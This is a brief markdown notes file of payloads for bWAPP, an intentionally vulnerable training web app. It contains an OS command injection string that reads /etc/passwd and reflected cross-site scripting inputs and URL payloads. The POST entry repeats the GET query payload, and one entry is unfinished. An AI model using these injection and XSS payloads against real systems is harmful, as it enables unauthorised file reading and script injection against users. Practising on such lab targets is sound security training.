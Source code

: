 # bWAPP - Exploits

### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
not yet implemented
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```

### (4) Cross-Site Scripting - Reflected (POST) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```

